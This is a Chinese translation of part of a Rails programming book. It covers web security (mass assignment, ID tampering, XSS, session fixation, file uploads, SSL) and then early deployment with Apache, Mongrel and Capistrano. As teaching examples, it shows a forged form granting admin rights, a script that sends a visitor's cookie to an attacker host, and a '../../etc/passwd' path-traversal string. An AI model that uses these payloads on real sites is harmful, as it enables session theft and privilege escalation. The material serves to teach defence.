假设你想实现一个用户注册系统。你的 users 表如下所示。


`create_table :users do |t|`
  `t.column :name,      :string`
  `t.column :password,  :string`
  `t.column :role,      :string,  :default => "user"`
  `t.column :approved,  :integer, :default => 0`
`end`

`role` 列包含 `admin`、`moderator` 或 `user` 之一，它定义了此用户的权限。一旦管理员批准了该用户对系统的访问权限，`approved` 列将被设置为 1。

对应的注册表单的 HTML 如下所示。

```
<form method="post" action="http://website.domain/user/register">
  <input type="text" name="user[name]" />
  <input type="text" name="user[password]" />
</form>
```

在我们应用程序的控制器中，从表单数据创建用户对象的最简单方法是将表单参数直接传递给 `User` 模型的 `create` 方法。

```
def register
  User.create(params[:user])
end
```

但如果有人决定将注册表单保存到磁盘，并通过添加一些字段来玩弄它会怎样？也许他们手动提交一个看起来像这样的网页。

```
<form method="post" action="http://website.domain/user/register">
  <input type="text" name="user[name]" />
  <input type="text" name="user[password]" />
  <input type="text" name="user[role]"      value="admin" />
  <input type="text" name="user[approved]"  value="1" />
</form>
```

尽管我们控制器中的代码仅打算为新用户初始化 `name` 和 `password` 字段，但这个攻击者也给了自己管理员身份并批准了自己的账户。

`Active Record` 提供了两种方法来保护敏感属性不被更改表单的恶意用户覆盖。第一种是将要保护的属性列为 `attr_protected` 方法的参数。任何标记为受保护的属性都不会通过模型的 `create` 和 `new` 方法的批量赋值进行分配。

我们可以使用 `attr_protected` 来保护 `User` 模型。

```
class User < ActiveRecord::Base
  attr_protected :approved, :role
  # ... 模型的其余部分 ...
end
```

这确保了 `User.create(params[:user])` 不会根据 `params` 中任何对应的值来设置 `approved` 和 `role` 属性。如果你想在控制器中设置它们，你需要手动进行。（此代码假设模型对 `approved` 和 `role` 的值进行了适当的检查。）

```
user = User.new(params[:user])
user.approved = params[:user][:approved]
user.role     = params[:user][:role]
```

如果你担心在将模型暴露给残酷的世界之前，你可能会忘记对正确的属性应用 `attr_protected`，你可以以相反的方式指定保护。`attr_accessible` 方法允许你列出可以自动分配的属性——所有其他属性都将受到保护。如果底层表的结构可能发生变化，这特别有用——你添加的任何新列默认情况下都会受到保护。

使用 `attr_accessible`，我们可以这样保护 `User` 模型。

```
class User < ActiveRecord::Base
  attr_accessible :name, :password
  # ... 模型的其余部分 ...
end
```

### 26.3 不要信任 ID 参数

当我们第一次讨论检索数据时，我们介绍了基本的 `find` 方法，它根据主键值检索一行。

鉴于主键唯一地标识表中的一行，为什么我们在使用该键获取行时要应用额外的搜索条件呢？事实证明，这是一种有用的安全装置。

也许我们的应用程序允许客户查看他们的订单列表。如果客户单击列表中的一个订单，应用程序将显示订单详情——单击会调用 `order/show/nnn` 操作，其中 `nnn` 是订单 id。

攻击者可能会注意到此 URL 并尝试通过手动输入不同的订单 id 来查看其他客户的订单。我们可以通过在操作中使用受约束的 `find` 来防止这种情况。在这个例子中，我们用附加条件限定搜索，即订单的所有者必须与当前用户匹配。如果没有匹配的订单，将抛出异常，我们通过重新显示索引页面来处理它。此代码假设一个前置过滤器已经在 `@user` 实例变量中设置了当前用户的信息。

```
def show
  @order = Order.find(params[:id], :conditions => [ "user_id = ?", @user.id])
rescue
  redirect_to :action => "index"
end
```

更好的是，考虑使用新的基于集合的查找器方法，这些方法将其结果限制为仅集合中的行。例如，如果我们假设用户模型 `has_many :orders`，那么 Rails 将让我们将前面的代码写成

```
def show
  id       = params[:id]
  @order   = @user.orders.find(id)
rescue
  redirect_to :action => "index"
end
```

此解决方案不限于 `find` 方法。基于从表单返回的 id（或 id）删除或销毁行的操作同样危险。养成使用类似方式约束 `delete` 和 `destroy` 调用的习惯。

```
def destroy
  id       = params[:id]
  @order   = @user.orders.find(id).destroy
rescue
  redirect_to :action => "index"
end
```

### 26.4 不要暴露控制器方法

一个操作仅仅是控制器中的一个公共方法。这意味着，如果你不小心，你可能会将原本打算仅在应用程序内部调用的方法作为操作暴露出来。例如，一个控制器可能包含以下代码。

```
class OrderController < ApplicationController
  # 从网页表单调用
  def accept_order
    process_payment
    mark_as_paid
  end

  def process_payment
    @order = Order.find(params[:id])
    CardProcessor.charge_for(@order)
  end

  def mark_as_paid
    @order = Order.find(params[:id])
    @order.mark_as_paid
    @order.save
  end
end
```

好吧，这不是很棒的代码，但它说明了一个问题。显然，`accept_order` 方法旨在处理来自表单的 POST 请求。开发者决定将其两个职责分解，将它们包装在两个单独的控制器方法中，`process_payment` 和 `mark_as_paid`。

不幸的是，开发者将这两个辅助方法保留为公共可见性。这意味着任何人都可以在他们的浏览器中输入以下内容。

http://unlucky.company/order/mark_as_paid/123

订单 123 将神奇地被标记为已付款，绕过了所有的信用卡处理。在 Unlucky 公司，每天都是免费赠品日。

基本规则很简单：控制器中唯一的公共方法应该是可以从浏览器调用的操作。

此规则也适用于你添加到 `application.rb` 的方法。这是所有控制器类的父类，其公共方法也可以作为操作被调用。

### 26.5 跨站脚本攻击 (CSS/XSS)

许多 Web 应用程序使用会话 cookie 来跟踪用户的请求。cookie 用于识别请求并将其连接到会话数据（Rails 中的会话）。通常，此会话数据包含对当前登录用户的引用。

跨站脚本是一种从网站的另一位访客那里“窃取” cookie 的技术，从而可能窃取该人的登录凭据。

cookie 协议具有少量内置安全性：浏览器仅将 cookie 发送到最初创建它的域。但这种安全性可以被绕过。获取他人 cookie 的最简单方法是在网站上放置一段特殊构造的 JavaScript 代码；该脚本可以读取访客的 cookie 并将其发送给攻击者（例如，通过将数据作为 URL 参数传输到另一个网站）。

#### 典型攻击

任何显示来自应用程序外部数据的网站都容易受到 XSS 攻击，除非应用程序注意过滤该数据。有时攻击路径是复杂而微妙的。例如，考虑一个购物应用程序，它允许用户为网站管理员留下评论。网站上的一个表单捕获此注释文本，该文本存储在数据库中。

一段时间后，该网站的管理员查看所有这些评论。当天晚些时候，攻击者获得了应用程序的管理员访问权限并窃取了所有信用卡号码。


这次攻击是如何实施的？它始于捕获用户评论的表单。攻击者构造了一段简短的 JavaScript 代码，并将其作为评论输入。

```javascript
<script>
    document.location='http://happyhacker.site/capture/' + document.cookie
</script>
```

当这段脚本执行时，它会联系 `happyhacker.site` 主机，在那里调用 `capture.cgi` 应用程序，并将与当前主机关联的 cookie 传递给它。现在，如果这段脚本在常规网页上执行，并不会造成安全漏洞，因为它只捕获了提供该页面的主机相关联的 cookie，而主机本身就有权访问该 cookie。

但是，通过将这段代码植入评论表单，攻击者就在我们的系统中植入了一颗定时炸弹。当商店管理员要求应用程序显示收到的客户评论时，应用程序可能会执行一个类似这样的 Rails 模板。

```erb
<div class="comment">
    <%= order.comment %>
</div>
```

攻击者的 JavaScript 被插入到管理员查看的页面中。当此页面显示时，浏览器会执行该脚本，并将 `document.cookie` 发送到攻击者的网站。然而，这次发送的 cookie 是与我们自己的应用程序相关联的（因为是我们的应用程序将页面发送给了浏览器）。攻击者现在拥有了 cookie 中的信息，并可以利用它来冒充商店管理员。

##### 保护你的应用程序免受 XSS 攻击

当攻击者能够将自己的 JavaScript 插入到显示时带有相关会话 cookie 的页面中时，跨站脚本攻击就会奏效。幸运的是，这些攻击很容易预防——永远不要允许从外部接收到的任何内容直接显示在你生成的页面上。³ 在网站中渲染的每个字符串里，务必将 HTML 元字符（`<` 和 `>`）转换为等效的 HTML 实体（`&lt;` 和 `&gt;`）。这将确保无论攻击者在表单中输入什么文本或附加到 URL 上，浏览器总是将其渲染为纯文本，并且绝不会解释任何 HTML 标签。这本身也是个好主意，因为用户很容易因为留下未关闭的标签而搞乱你的布局。如果你使用像 Textile 或 Markdown 这样的标记语言，请务必小心，因为它们允许用户向你的页面添加 HTML 片段。

> 3. 从外部接收的内容可能通过与 POST 请求关联的数据到达（例如，来自表单）。但它也可能作为 GET 请求的参数到达。例如，如果你允许用户向你传递参数来添加到你显示的页面中，他们可能会在这些参数中添加 `<script>` 标签。

> **Joe 问...**
> **为什么不直接剥离 `<script>` 标签？**
>
> 如果问题是人们可以将 `<script>` 标签注入到我们显示的内容中，你可能认为最简单的解决方案是一些扫描并移除这些标签的代码？
>
> 不幸的是，这行不通。浏览器现在会在数量惊人的上下文中执行 JavaScript（例如，当 `onclick=` 处理程序被调用时，或在 `` 标签的 `src=` 属性中）。而且问题不仅限于 JavaScript——允许人们在内容中包含外部链接可能会让他们将你的网站用于恶意目的。你*可以*尝试检测所有这些情况，但 HTML 转义方法更安全，并且在 HTML 演进过程中更不容易失效。

Rails 在视图中提供了辅助方法 `h(string)`（`html_escape` 的别名）来执行这种转义。在有漏洞的商店应用程序中，编写评论查看器的人本可以通过使用以下代码来消除这个问题

```erb
<div class="comment">
  <%= h(order.comment) %>
</div>
```

养成对任何在视图中渲染的变量使用 `h` 的习惯，即使你认为它来自可靠来源。当你在阅读其他人的源代码时，要警惕 `h` 方法的使用——人们倾向于不在 `h` 周围加括号，而且它通常很难被发现。

有时你需要将包含 HTML 的字符串替换到模板中。在这种情况下，`sanitize` 方法会移除许多潜在的危险结构。然而，建议你检查 `sanitize` 是否提供了你所需的完整保护：新的 HTML 威胁似乎每周都会出现。

### 26.6 避免会话固定攻击

如果你知道某人的会话 ID，那么你就可以创建使用该 ID 的 HTTP 请求。当 Rails 接收到这些请求时，它认为它们与原始用户相关联，因此会允许你执行该用户能做的任何操作。

Rails 在很大程度上防止了人们猜测其他人的会话 ID，因为它使用安全的哈希函数构造这些 ID。实际上它们是非常大的随机数。然而，有方法可以达到几乎相同的效果。

在会话固定攻击中，坏人从我们的应用程序获得一个有效的会话 ID，然后以某种方式将其传递给第三方，使得第三方将使用这个相同的会话。如果那个人使用该会话登录到我们的应用程序，同样拥有该会话 ID 的坏人也将被登录。⁴

有几种技术有助于消除会话固定攻击。首先，你可能会发现将创建会话的请求的 IP 地址保存在会话数据中会很有帮助。如果此 IP 地址发生变化，你可以取消该会话。这将惩罚那些将笔记本电脑从一个网络移动到另一个网络的用户，以及那些在 PPPOE 租约到期时 IP 地址会发生变化的家庭用户。

其次，你应该考虑在每次有人登录时创建一个新会话。这样，合法用户将继续使用应用程序，而坏人将留下一个孤立的会话 ID。

### 26.7 文件上传

一些面向社区的网站允许其参与者上传文件供其他参与者下载。除非你非常小心，否则这些上传的文件可能被用来攻击你的网站。

例如，想象有人上传了一个文件名以 `.rhtml` 或 `.cgi`（或与你网站上可执行内容相关的任何其他扩展名）结尾的文件。如果你在下载页面上直接链接到这些文件，当文件被选中时，你的 Web 服务器可能会倾向于执行其内容，而不是简单地下载它。这将允许攻击者在你的服务器上运行任意代码。

解决方案是永远不要允许用户上传那些随后直接提供给其他用户的文件。相反，将文件上传到一个 Web 服务器无法访问的目录（在 Apache 术语中是 `DocumentRoot` 之外）。然后提供一个允许人们查看这些文件的 Rails 动作。在此动作中，确保你

- 验证请求中的名称是否是简单、有效的文件名，并且匹配目录中的现有文件或表中的行。不要接受像 `../../etc/passwd` 这样的文件名（参见侧边栏 *输入验证很困难*）。你甚至可能希望将上传的文件存储在数据库表中，并使用 ID 而不是名称来引用它们。
- 当你下载一个将在浏览器中显示的文件时，务必转义其中包含的任何 HTML 序列，以消除 XSS 攻击的可能性。如果你允许下载二进制文件，请确保你

> 4. ACROS Security 的一份文档详细描述了会话固定攻击，可在 http://www.secinf.net/uplarticle/11/session_fixation.pdf 获取。

设置了适当的 `Content-Type` HTTP 头，以确保该文件不会意外地在浏览器中显示。

第 432 页开始的描述介绍了如何从 Rails 应用程序下载文件，而第 502 页开始的关于上传文件的部分展示了一个将图像文件上传到数据库表并提供显示它们的动作的示例。

### 26.8 不要以明文形式存储敏感信息

你可能正在编写受外部法规约束的应用程序（在美国，如果你处理信用卡数据，CISP 规则可能适用；如果你处理医疗数据，HIPAA 可能适用）。这些法规对你如何处理信息施加了一些严重的限制。即使你不属于这些规则的管辖范围，你也可能希望通读它们，以获取关于保护数据安全的思路。

如果你使用任何第三方的个人或识别信息，你可能希望考虑在存储时加密这些数据。这可以很简单，例如在保存记录之前使用 Active Record 钩子对某些属性执行 AES128 加密，并在读取时使用其他钩子进行解密。⁵

> 5. 像 EzCrypto（[http://ezcrypto.rubyforge.org/](http://ezcrypto.rubyforge.org/)）和 Sentry（[http://sentry.rubyforge.org/](http://sentry.rubyforge.org/)）这样的 Gem 可能会简化你的工作。


然而，想想其他方式，这种敏感信息可能泄露出去。

-   是否有任何信息存储在会话（或闪存）中？如果是，如果有人有权访问会话存储，你就有暴露信息的风险。
-   是否有任何信息长时间保存在内存中？如果是，当你的应用程序崩溃时，它可能会在核心文件中暴露出来。考虑在数据使用后清除字符串。
-   是否有任何敏感信息泄露到你的应用程序日志文件中？这种情况发生的频率可能比你想象的要高，因为 Rails 在日志记录方面相当随意。在生产模式下，你会发现它会以明文形式将请求参数转储到 production.log 中。

从 Rails 1.2 开始，你可以要求 Rails 使用控制器中的 `filter_parameter_logging` 声明来省略某些参数的值。例如，以下声明可防止在日志中显示 password 属性的值以及用户记录中的任何字段。

```ruby
class ApplicationController < ActionController::Base
  filter_parameter_logging :password, :user
  #...
end
```

详情请参阅 Rails API 文档。

### 26.9 使用 SSL 传输敏感信息

SSL 协议（每当 URL 以 `https` 协议开头时使用）会加密 Web 浏览器和服务器之间的流量。当你有捕获敏感信息的表单，或者当你向用户响应敏感信息时，你都希望使用 SSL。

可以完全手动操作，在使用 `link_to` 等创建超链接时设置 `:protocol` 参数。然而，这既繁琐又容易出错：忘记做一次，你可能就打开了一个安全漏洞。更简单的技术是使用 `ssl_requirement` 插件。使用以下命令安装：

```
depot> ruby script/plugin install ssl_requirement
```

安装后，通过向你的应用程序控制器添加 `include`，你可以为所有应用程序控制器添加支持。

```ruby
class ApplicationController < ActiveRecord::Base
  include SslRequirement
end
```

现在你可以在每个控制器中为单个操作设置策略。以下代码直接来自插件的 README 文件。

```ruby
class AccountController < ApplicationController
  ssl_required :signup, :payment
  ssl_allowed :index

  def signup
    # 非 SSL 访问将被重定向到 SSL
  end

  def payment
    # 非 SSL 访问将被重定向到 SSL
  end

  def index
    # 此操作在有无 SSL 的情况下均可工作
  end

  def other
    # SSL 访问将被重定向到非 SSL
  end
end
```

`ssl_required` 声明列出了只能通过 HTTPS 请求调用的操作。`ssl_allowed` 声明列出了可以使用 HTTP 或 HTTPS 调用的操作。

`ssl_requirement` 插件的妙处在于它处理不符合要求的请求的方式。如果一个普通的 HTTP 请求到达一个已声明需要 SSL 的方法，插件将拦截它并立即发出一个重定向回同一个 URL，但协议为 HTTPS。这样，用户将自动切换到安全连接，而无需在应用程序的视图中执行任何显式的协议设置。类似地，如果一个 HTTPS 请求到达一个不应该使用 SSL 的操作，插件将自动重定向回同一个 URL，但协议为 HTTP。

### 26.10 不要缓存已认证的页面

请记住，页面缓存会绕过应用程序中的任何安全过滤器。如果你需要基于会话信息控制访问，请使用操作或片段缓存。更多信息请参见第 21.5 节 *缓存，第一部分*（第 456 页）和第 22.10 节 *缓存，第二部分*（第 514 页）。

### 26.11 确保其有效

当我们想确保编写的代码按预期工作时，我们会编写测试。当我们想确保代码安全时，也应该这样做。

> 6. 但是，当然，这种易用性是以初始重定向为代价的，以让你从 HTTP 世界进入 HTTPS 世界。请注意，此重定向仅发生一次：一旦你开始使用 HTTPS，常规的 `link_to` 辅助方法将自动生成 HTTPS 协议请求。

在验证新应用程序的安全性时，请不要犹豫，采取同样的做法。使用 Rails 功能测试来模拟潜在的用户攻击。如果你在代码中发现安全漏洞，请编写一个测试以确保修复后，它不会在未来的某个时候重新出现。

同时，要认识到测试只能检查你想到的问题。是那些别人想到的问题会给你带来麻烦。

本章由 James Duncan Davidson（http://duncandavidson.com）撰写。Duncan 是一名独立顾问、作家，而且——说来也巧——还是一名自由摄影师。

# 第 27 章

## 部署和生产环境

部署本应是你应用程序生命周期中的一个幸福时刻。这是你将精心编写的代码上传到服务器，以便其他人使用它的时刻。这是啤酒、香槟和开胃小菜应该流淌的时刻。不久之后，你的应用程序将被 *Wired* 杂志报道，而你将成为极客社区中的名人。不幸的是，事情并不总是如此。与创建 Rails 应用程序的 *简单* 相比，部署该应用程序可能很棘手、令人恼火，有时甚至令人发指。做出这些决定需要权衡许多决策和许多权衡。简而言之，部署是你离开舒适、固执己见的 Rails 开发世界，进入一个更加混乱的世界的地方，在那里许多答案都是正确的，而哪个答案正确取决于具体情况。

公平地说，部署基于 Web 的应用程序始终是一件 DIY（*自己动手*）的事情。每个人都有自己独特的网络设置，以及对数据库访问、数据安全和防火墙保护的不同要求。根据你的需求和预算，你可能会部署到共享主机提供商、专用服务器，甚至是一个巨大的机器集群。而且，如果你的应用程序在某个受行业或政府标准约束的领域运行——例如在线支付时的 Visa CISP，或者处理医疗患者数据时的 HIPAA——那么将会有许多外部的，有时是相互冲突的力量影响着你的应用程序的部署，而这些是你无法控制的。

好消息是，你不必一开始就试图建立完美的生产部署环境。相反，你应该循序渐进。你应该在开发过程中尽早开始进行第一次部署。这将帮助你学习如何部署你的应用程序，使其安全并符合所有适用要求，然后你才能为真正的客户执行部署。这就像在学习跑步之前先学习走路。

本章将向你展示如何开始这些初始部署，并为你提供一些技巧，帮助你在迈向真正的生产部署过程中需要关注的问题。

### 27.1 尽早开始

掌握部署 Rails 应用程序的诀窍在于尽早开始。一旦你准备好将初具雏形的 Rails 应用程序展示给其他人，你就应该设置一个部署服务器。这不一定是你最终的部署环境。你不需要一个快速、重型、工业级的服务器集群。你只需要一台适中的机器，你可以专门用于托管你正在开发的应用程序。你闲置的任何备用机器，比如角落里那个基于 G4 的立方体，都可以很好地工作。

尽早开始有什么好处？首先，你会让自己进入代码、测试、提交和部署的节奏。这是你在某个时候与应用程序一起处于的节奏，在开发应用程序的过程中越早进入这个节奏，对你就越有利。你将能够识别将影响你的应用程序的部署问题，并获得大量处理这些问题的经验。这些问题可能围绕迁移、数据导入，甚至文件权限展开。每个应用程序在部署时似乎都会表现出自己的小特点。尽早发现这些特点意味着你不会在公开发布网站并开始需要快速部署以修复错误和添加功能时才发现它们。

尽早设置部署环境还意味着你将拥有一个正在运行的服务器，你可以让你的客户、老板或可信的朋友在服务器上检查应用程序的进度。正如敏捷开发人员所知，用户在开发过程中越早能给你反馈，就越好。通过观察这些早期用户对你的应用程序有什么看法，他们遇到的问题，甚至他们对如何改进应用程序的点子，你将能够获得重要的反馈。他们将帮助你识别哪些地方做得对，哪些功能需要改进甚至删除。

尽早开始意味着你可以练习使用迁移来修改和更改已具有现有数据的数据库模式。当你在自己的机器上单独工作时，修订应用程序自身升级方式的问题可能会悄然而至。当你通过部署到公共服务器与他人一起工作时，你将获得如何无缝推进应用程序的经验。

最后，也是最重要的好处是，你将知道自己有能力将应用程序交付给用户。如果你花了四个月

每周工作80小时开发你的应用，但从不进行部署，然后决定明天就将其投入生产环境，那么你很可能会在上线过程中遇到各种问题。此外，你还会遇到维持系统运行的困难，更不用说更新了。然而，通过尽早设置部署流程，你就能确信自己可以随时交付应用。

### 27.2 生产服务器的工作原理

到目前为止，当您在本地机器上开发 Rails 应用时，运行服务器可能一直在使用 WEBrick 或 Mongrel。在大多数情况下，这无关紧要。`script/server` 命令会以最合适的方式让您的应用在开发模式下运行于3000端口。然而，部署后的 Rails 应用工作方式略有不同。您不能仅仅启动一个 Rails 服务器进程就指望它完成所有工作。好吧，您*可以*这么做，但这远非理想。原因在于 Rails 是单线程的，它一次只能处理一个请求。

然而，互联网是一个高度并发的环境。生产级 Web 服务器，如 Apache、Lighttpd 和 Zeus，可以同时处理多个请求——甚至是数十或数百个请求。单进程、单线程的基于 Ruby 的 Web 服务器根本无法跟上。幸运的是，它并不需要跟上。相反，将 Rails 应用部署到生产环境的方法是使用前端服务器（如 Apache）来处理来自客户端的请求。然后，使用 FastCGI 或 HTTP 代理将应由 Rails 处理的请求发送到任意数量的后端应用进程之一。如图27.1所示。

这种设置允许 Rails 扩展到多个应用服务器。单个前端 Web 服务器可以将请求分发到运行在任意数量后端机器上的任意数量的 Rails 进程。而且，由于 Rails 构建在假设所有状态都保存在应用程序外部的架构之上（通常在数据库层，但也使用文件系统，可能还有共享内存缓存），这种基本架构意味着 Rails 应用程序可以扩展到数据库无法承受的程度。如果 Rails 应用程序层出现变慢，您只需添加另一台（或三台）服务器即可相应地扩展容量。

这种设置的缺点是它需要使用和配置多个组件。您不仅需要安装前端 Web 服务器，还需要安装应用程序并设置启动后端应用服务器的脚本。我们稍后会看到如何做到这一点。

#### FastCGI 与代理请求

当 Rails 刚出现时，运行 Rails 应用程序进程最常用的高性能选项是 FastCGI。事实上，本书第一版就推荐了它，称使用 FastCGI 就像给 Rails 装上了火箭发动机。FastCGI 使用长运行进程，可以处理多个连续请求。这意味着 Ruby 解释器和 Rails 框架每个进程只需加载一次，一旦加载，就可以快速为宿主 Web 服务器处理请求。

然而，FastCGI 伴随着许多问题。FastCGI 可追溯到1990年代中期。在 Rails 出现之前，它一直处于相对默默无闻的状态。即使在 Rails 将 FastCGI 重新带回公众视野之后，生产级、高质量的 FastCGI 环境也寥寥无几。许多开发者（包括我们自己）都曾使用过 Web 服务器和 FastCGI 环境的各种可能组合来部署应用程序，并且发现每种组合都存在严重问题。其他开发者部署了基于 FastCGI 的解决方案而几乎没有遇到任何问题。但有足够多的人看到了足够多的问题，以至于很明显这不是一个值得推荐的好解决方案。

2006年，随着越来越多的 Rails 开发者寻求更好的解决方案，一种源自 HTTP 的替代方案出现了。许多开发者发现，通过将 HTTP 请求从可扩展的前端服务器（如 Apache）代理到一组基于 Ruby 的 Rails 后端应用服务器，他们可以获得出色且灵活的结果。这种替代方案与 Mongrel 同时走向成熟，Mongrel 是 Zed Shaw 编写的一个主要基于 Ruby 的 Web 服务器，其性能足以用作此类系统设置中的一个组件。

使用 HTTP 代理的解决方案也发挥了许多不同类型的负载均衡器的优势。Apache 和 Lighttpd 都具有充当后端应用服务器集群前端的能力。但是，您也可以使用原始 HTTP 负载均衡器（如 Pound）甚至基于硬件的负载均衡器来将请求直接转发到任意数量的 Rails 实例。

##### 那么 CGI 呢？

如果您深入研究您的 Rails 应用程序，您会注意到有一个 `public/dispatch.cgi` 文件。该文件允许您将 Rails 应用程序作为 CGI 应用程序运行。但是，您真的、*真的*不想这样做。将基于 Rails 的应用程序作为 CGI 运行是一种对耐心的考验，因为每个请求都会加载一个新的 Ruby 解释器以及整个 Rails 框架。加载 Ruby 解释器不是什么大问题，但加载 Rails 带来的所有功能需要一些时间。即使在最快的机器上，处理一个典型请求的时间也可能达到数秒。

关于 CGI 和 Rails 的最佳建议：不要这样做。甚至想都别想。这不是一个合理的选择，在我们看来，应该从默认的 Rails 安装中移除。

使用 HTTP 代理连接应用程序堆栈的各个 Web 服务器层可能最引人注目的优势在于它是面向未来的且可扩展的。您可以将其他基于 Web 的应用程序解决方案（例如基于 Python、C、Erlang 或任何其他语言的解决方案）插入到您的整体基础设施中，并将其编织到您的 Web 应用程序中。而且，您可以让应用程序的组件通过直接的 HTTP 调用调用其他组件。这种级别的集成进入了面向服务架构（SOA）的领域，这方面已有大量著述（在别处）。

简而言之，FastCGI 是一枚有时会在发射台上以奇怪方式爆炸的火箭。使用代理设置与讲 HTTP 语言的 Rails 应用程序进程通信是社区正在发展的普遍方向。在设置您自己的部署环境时，您应该效仿——我们也将向您展示如何部署您的应用程序。

### 27.3 比较前端 Web 服务器

出于大多数目的，特别是对于初始部署，您需要考虑两个主要的前端 Web 服务器：Apache 和 Lighttpd。一旦您将应用程序移入公共生产环境，除了这两个之外还有其他选择，包括 Pound 和其他基于轻量级 HTTP 的负载均衡器。但是，在这个级别上做出选择不会让您陷入困境。您可以轻松地在 Apache、Lighttpd 和 Pound 之间切换，而无需更改您的 Rails 代码。

#### Apache：行业标准

Apache 几乎无处不在，这有两个非常好的理由：它极其灵活，并且具有合理的性能特性。它几乎在所有 Unix 变体（包括 Linux 和 Mac OS X）以及 Windows 上运行。并且经过多年来的验证。Apache 的新版本越来越好，并且往往不会引入回归问题。

开箱即用，Apache 2.2 通过内置的 `mod_proxy_balancer` 支持 HTTP 请求的负载均衡。您可以将此模块与 Apache 强大的 `mod_rewrite` 模块结合使用，根据对您重要的任意数量的条件创建真正令人印象深刻的请求处理。如果您有一个现有的复杂网站，那么您很可能正在使用 Apache 将所有部分编织在一起。

##### Lighttpd：崭露头角的竞争者

与无所不能的 Apache 相比，Lighttpd 是一个更简单、灵活性较低的 Web 服务器。它的存在理由是性能。对于提供静态内容，它可能非常快，并且据称在比 Apache 更重的负载下仍能保持可用。它也是近年来唯一一个具有积极开发的 FastCGI 实现的服务器。因此，如果您出于某种原因想使用 FastCGI 来部署 Rails 应用程序，Lighttpd 可能正是您需要的。

Lighttpd 的缺点在于它很年轻，并且正在积极开发中。版本之间的稳定性并非其主要特点之一：某些版本比后续版本稳定得多。然而，这个服务器的开发速度非常快，并且很可能成为未来的潮流。您应该从第一天起就关注它。

##### Pound 和其他负载均衡器

正如我们提到的，当使用 Mongrel 时，许多其他 Web 服务器（包括硬件内置的服务器）都成为您 Rails 应用程序可行且强大的前端。一旦您部署了应用程序并确定了如何将其扩展到下一个级别，您可能需要考虑这些。但是，当您刚开始部署时，重要的是要记住为您自己保留与负载均衡器良好集成的选项。使用基于 HTTP 的代理连接 Mongrel 非常合适，所以目前，请记住这一点。在您需要它之前，您可能应该只坚持使用 Apache 或 Lighttpd。

### 27.4 使用 Capistrano 进行可重复部署

既然我们已经讨论了部署后的 Rails 应用程序的结构，我们需要稍微调整一下重点，看看如何将 Rails 应用程序从我们的本地机器转移到它将运行的远程服务器上。在编写本书第一版时，将代码投入生产很大程度上是胶带和铁丝的事情。每个人的做法都不同，生活

情况相当糟糕。此时，Jamis Buck 带着一个最初名为 SwitchTower、后更名为 Capistrano 的工具前来救场。

Capistrano 是一个基于 Ruby 的实用工具，旨在可靠且可重复地将 Rails 应用部署到远程服务器。它使用 SSH 与服务器通信并执行命令。这是一个高度可配置的工具；然而，对于简单的部署，它的使用非常直接。它有点像一个增强了的 Rake 版本，因为 Capistrano 的配方是由一组待执行的任务组成的。不过在 Capistrano 中，任务是通过方法设置的，这些方法会在一个或多个远程服务器上触发操作。

和 Rails 一样，Capistrano 是一个有主见的软件——它做了一些假设。第一个假设是你部署到基于 Unix 的系统。第二个假设是你的代码存放在一个可以从部署源机器和部署目标机器访问的仓库中。

第一个假设，即我们使用基于 Unix 的系统，这一点很重要。不陷入深层的哲学甚至有时是宗教性的争论，值得注意的是，迄今为止所有主要的 Rails 部署都是部署到基于 Unix 的系统上。同样，所有 Rails 核心团队成员都在基于 Unix 的系统上工作和部署。如果你必须冒险在 Windows 上进行部署，那你将只能靠自己。我们的建议是不要这样做。

第二个假设——即你将应用程序存储在受支持的源代码控制系统中——则没有那么受限。如果你使用的源代码控制系统 Capistrano 不支持，添加支持也并非*太*困难。而如果你不使用源代码控制系统，那你真的应该使用。

所以，总结一下：开发者照常工作，将代码签入和签出他们的源代码仓库。当需要部署到生产环境时，他们发出一个特定的命令，Capistrano 会从仓库中获取应用程序并将其部署到一个或多个服务器机器上。这个过程如图 27.2 所示。

### 27.5 设置部署环境

正如你所看到的，设置部署环境时有许多选择。这些选择可以有很多很多种组合方式。我们决定不再每个选项花两句话简单介绍（这给不出太多实用建议），而是专注于详细说明如何使用带有 `mod_proxy_balancer` 的 Apache Web 服务器、Mongrel 和 MySQL 来设置一个推荐的环境。

> 1.  Capistrano 1.1 支持托管在 Bazaar、Bazaar-NG、cvs、Darcs、Perforce 和 Subversion 仓库中的应用程序。



大多数时候你将在本地计算机上发出命令，但在初始设置期间，你也需要在服务器上进行操作。我们在命令提示符中展示了你正在使用哪台计算机。

#### 第一步：设置一台机器

一旦你有了适合部署应用程序的机器，你的第一项工作应该是清理它，使其准备就绪。如果它是一台 PC，确保它运行的是最新版本的 Linux、FreeBSD 或 Solaris。如果它是一台 Mac，确保它运行的是最新发布的 Mac OS X 版本。

下一步是安装你需要的各种软件组件。你需要安装的项目包括：

- Apache 2.2（或最新发布的版本）Web 服务器
- MySQL 5.0（或最新发布的版本）数据库服务器
- Ruby 1.8.4 或更高版本
- 用于管理基于 Ruby 的包的 RubyGems
- MySQL/Ruby 库
- Ruby Termios 库（Windows 上不需要）

对于这些组件，我们建议你使用包管理器。在 Ubuntu Linux 上，使用 apt-get。在 Red Hat 上，使用 rpm。在 Mac OS X 上，使用 MacPorts。使用包管理器意味着在不同软件版本之间切换要容易得多。随着 Apache、Ruby 和 MySQL 新版本的不断出现，每个版本都会包含你想要的安全和性能修复，使用包管理器将帮助你保持最新。

例如，以下是一组你将在 Mac OS X 系统上使用 MacPorts 安装上述组件的命令。²

```
# 在服务器和你的客户端上（如果尚未安装）
$ sudo port install apache2
$ sudo port install mysql5 +server
$ sudo port install ruby
$ sudo port install rb-rubygems
$ sudo port install rb-termios    # windows 上不需要
```

一旦你安装了上述原生组件，你需要安装以下 RubyGems：Rake、Rails、Capistrano 和 Mongrel。要快速安装这些 gem，请使用以下命令。（Windows 用户需要修改这些说明，选择适当的 gem 格式和（对于 mongrel_cluster 的情况）版本。）

```
# 在服务器和你的客户端上（如果尚未安装）
$ sudo gem install --include-dependencies rake
$ sudo gem install --include-dependencies rails
